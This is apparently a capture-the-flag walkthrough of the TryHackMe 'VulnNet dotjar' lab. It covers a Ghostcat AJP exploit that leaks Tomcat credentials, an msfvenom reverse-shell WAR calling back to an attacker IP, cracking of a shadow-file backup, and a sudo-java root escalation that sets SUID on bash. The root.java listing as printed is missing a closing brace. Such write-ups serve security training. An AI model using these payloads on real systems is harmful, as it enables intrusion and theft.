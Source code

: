 # 72 - VulnNet dotjar (Ghostcat exploit, Java app exploitation)

Room Link --> [https://tryhackme.com/room/vulnnetdotjar](https://tryhackme.com/room/vulnnetdotjar)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -sV 10.10.23.33

PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 9.0.30
```
{% endcode %}

Navigating to port 8080

<figure><img src=".gitbook/assets/image (469).png" alt=""><figcaption></figcaption></figure>

None of the default credentials worked for the Manager Login panel.

### Ghostcat Exploit <a href="#ghostcat-exploit" id="ghostcat-exploit"></a>

A quick google search for exploits for `apache tomcat version 9.0.30` and we saw it is vulnerable to the \`[https://github.com/00theway/Ghostcat-CNVD-2020-10487](https://github.com/00theway/Ghostcat-CNVD-2020-10487)\`

We run the script against port 8009

```bash
python3 ajpShooter.py http://10.10.143.34 8009 /WEB-INF/web.xml read
```

We got the credentials:

`webdev : Hgj3LA$02D$Fa@21`&#x20;

We can login on port 8080 now.

<figure><img src=".gitbook/assets/image (470).png" alt=""><figcaption></figcaption></figure>

#### Generating jsp .war reverse shell file with MSFVENOM

Now we have credentials to Apache we can upload a Java based reverse shell. Let’s create one using msfvenom:

{% code overflow="wrap" %}
```bash
dking@dking ~/Downloads$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.18.88.214 LPORT=1234 -f war -o pencer-shell.war
Payload size: 1090 bytes
Final size of war file: 1090 bytes
Saved as: pencer-shell.war
```
{% endcode %}

We use this [repo](https://gist.github.com/pete911/6111816) to upload it.

```bash
dking@dking ~/Downloads$ curl -u webdev -T reverse.war 'http://10.10.123.106:8080/manager/text/deploy?path=/'
Enter host password for user 'webdev':
FAIL - Application already exists at path [/]

# i keep getting that error, so i just tried some random dir ie; "im"
dking@dking ~/Downloads$ curl -u webdev -T reverse.war 'http://10.10.123.106:8080/manager/text/deploy?path=/war/'
Enter host password for user 'webdev':
OK - Deployed application at context path [/war/]
```

After uploading via command line, visit the URL in browser: `http://10.10.123.106:8080/war`

And i got shell.

<figure><img src=".gitbook/assets/image (471).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

Just like other VulnNet rooms, there is a /backup dir in the /var dir containing a readable `shadow-backup-alt.gz` file. Send it to kali and read it.

And we get a shadow file backup

```bash
dking@dking ~/Downloads$ cat shadow-backup-alt                                                                 
root:$6$FphZT5C5$cH1.ZcqBlBpjzn2k.w8uJ8sDgZw6Bj1NIhSL63pDLdZ9i3k41ofdrs2kfOBW7cxdlMexHZKxtUwfmzX/UgQZg.:18643:0:99999:7:::
daemon:*:18642:0:99999:7:::
bin:*:18642:0:99999:7:::
sys:*:18642:0:99999:7:::
sync:*:18642:0:99999:7:::
games:*:18642:0:99999:7:::
man:*:18642:0:99999:7:::
lp:*:18642:0:99999:7:::
mail:*:18642:0:99999:7:::
news:*:18642:0:99999:7:::
uucp:*:18642:0:99999:7:::
proxy:*:18642:0:99999:7:::
www-data:*:18642:0:99999:7:::
backup:*:18642:0:99999:7:::
list:*:18642:0:99999:7:::
irc:*:18642:0:99999:7:::
gnats:*:18642:0:99999:7:::
nobody:*:18642:0:99999:7:::
systemd-network:*:18642:0:99999:7:::
systemd-resolve:*:18642:0:99999:7:::
syslog:*:18642:0:99999:7:::
messagebus:*:18642:0:99999:7:::
_apt:*:18642:0:99999:7:::
uuidd:*:18642:0:99999:7:::
lightdm:*:18642:0:99999:7:::
whoopsie:*:18642:0:99999:7:::
kernoops:*:18642:0:99999:7:::
pulse:*:18642:0:99999:7:::
avahi:*:18642:0:99999:7:::
hplip:*:18642:0:99999:7:::
jdk-admin:$6$PQQxGZw5$fSSXp2EcFX0RNNOcu6uakkFjKDDWGw1H35uvQzaH44.I/5cwM0KsRpwIp8OcsOeQcmXJeJAk7SnwY6wV8A0z/1:18643:0:99999:7:::
web:$6$hmf.N2Bt$FoZq69tjRMp0CIjaVgjpCiw496PbRAxLt32KOdLOxMV3N3uMSV0cSr1W2gyU4wqG/dyE6jdwLuv8APdqT8f94/:18643:0:99999:7:::

```

Using john to crack the shadow hashes.

```bash
john shadow-backup-alt --wordlist=/usr/share/wordlists/rockyou.txt

# we cracked "jdk-admin"
794613852        (jdk-admin)     
```

We are able to `su jdk-admin` .

<figure><img src=".gitbook/assets/image (472).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Root

`sudo -l` .

<figure><img src=".gitbook/assets/image (473).png" alt=""><figcaption></figcaption></figure>

Running sudo -l we see that the user jdk-admin can run any jar file as the root user.

#### 1. Creating and Executing Jar file to read root flag.txt

[Create and execute java files](https://www.tecmint.com/create-and-execute-jar-file-in-linux/)

Create `Exploit.java` file, which reads the **root.txt** from the root directory.

```java
import java.io.File;
import java.io.FileNotFoundException;
import java.util.Scanner;

public class Exploit {
  public static void main(String[] args) {
    try {
      File myObj = new File("/root/root.txt");
      Scanner myReader = new Scanner(myObj);
      while (myReader.hasNextLine()) {
        String data = myReader.nextLine();
        System.out.println(data);
      }
      myReader.close();
    } catch (FileNotFoundException e) {
      System.out.println("An error occurred.");
      e.printStackTrace();
    }
  }
}
```

Executing Jar file, but it gives an error due to the absence of **manifest attribute**.

```bash
jdk-admin@vulnnet-dotjar:~/Downloads$ javac -d . Exploit.java
jdk-admin@vulnnet-dotjar:~/Downloads$ ls
Exploit.class  Exploit.java
jdk-admin@vulnnet-dotjar:~/Downloads$ jar cvf exploit.jar Exploit.class
added manifest
adding: Exploit.class(in = 865) (out= 563)(deflated 34%)
jdk-admin@vulnnet-dotjar:~/Downloads$ ls
Exploit.class  exploit.jar  Exploit.java
jdk-admin@vulnnet-dotjar:~/Downloads$ sudo java -jar exploit.jar
Password: 
no main manifest attribute, in exploit.jar
```

Adding **manifest attribute** and then executing the exploit:

```bash
jdk-admin@vulnnet-dotjar:~/Downloads$ echo Main-Class: Exploit > MANIFEST.MF
jdk-admin@vulnnet-dotjar:~/Downloads$ jar cvmf MANIFEST.MF exploit.jar Exploit.class
added manifest
adding: Exploit.class(in = 865) (out= 563)(deflated 34%)
jdk-admin@vulnnet-dotjar:~/Downloads$ sudo java -jar exploit.jar
THM{464c29e3ffae05c2e67e6f0c5064759c}
jdk-admin@vulnnet-dotjar:~/Downloads$ 
```

#### 2. Getting root shell using java

```java
jdk-admin@vulnnet-dotjar:/dev/shm$ cat <<EOF >>root.java 
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.io.IOException;

public class root {
    public static void main(String[] args) {
        String command = "chmod +s /bin/bash";
        try {
            Process process = Runtime.getRuntime().exec(command);
            BufferedReader reader = new BufferedReader(
                new InputStreamReader(process.getInputStream()));
            String line;
            while ((line = reader.readLine()) != null) {
                System.out.println(line);
            reader.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
EOF
```

Now we need to compile it:

```
jdk-admin@vulnnet-dotjar:/dev/shm$ javac root.java
jdk-admin@vulnnet-dotjar:/dev/shm$ jar cfe root.jar root root.class
```

Then we can run our code to change bash permissions:

```
jdk-admin@vulnnet-dotjar:/dev/shm$ sudo -u root /usr/bin/java -jar root.jar
```

Finally we run bash and escalate to root to get the last flag:

```
jdk-admin@vulnnet-dotjar:/dev/shm$ bash -p
bash-4.4# cat /root/root.txt
```

Done!

